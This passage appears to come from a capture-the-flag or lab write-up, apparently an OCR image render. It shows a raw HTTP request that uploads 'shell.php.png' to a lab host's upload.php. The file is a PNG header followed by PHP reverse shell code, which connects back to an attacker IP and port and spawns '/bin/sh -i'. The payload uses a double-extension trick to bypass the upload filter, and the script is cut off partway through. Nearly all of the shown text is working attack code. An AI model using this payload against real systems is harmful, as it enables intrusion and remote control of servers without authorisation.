 ```
POST /upload.php HTTP/1.1
Host: 10.10.10.146
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------334986682910585201961787437875
Content-Length: 6023
Origin: http://10.10.10.146
Connection: close
Referer: http://10.10.10.146/upload.php
Upgrade-Insecure-Requests: 1

-----------------------------334986682910585201961787437875
Content-Disposition: form-data; name="myFile"; filename="shell.php.png"
Content-Type: image/png

PNG

<?php
set_time_limit (0);
$VERSION = "1.0";
$ip = '10.10.14.5';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

//
// Daemonise ourself if possible to avoid zombies later
//

// pcntl_fork is hardly ever available, but will allow us to daemonise
// our php process and avoid zombies.  Worth a try...
if (function_exists('pcntl_fork')) {
    	// Fork and have the parent process exit
    	$pid = pcntl_fork();
    	
    	if ($pid == -1) {
        		printit("ERROR: Can't fork");
        		exit(1);
        	}
    	
    	if ($pid) {
        		exit(0);  // Parent exits
        	}
    
	// Make the current process a session leader
    	// Will only succeed if we forked
    	if (posix_setsid() == -1) {
        		printit("Error: Can't setsid()");
        		exit(1);
        	}
    
	$daemon = 1;
    } else {
    	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
    }

```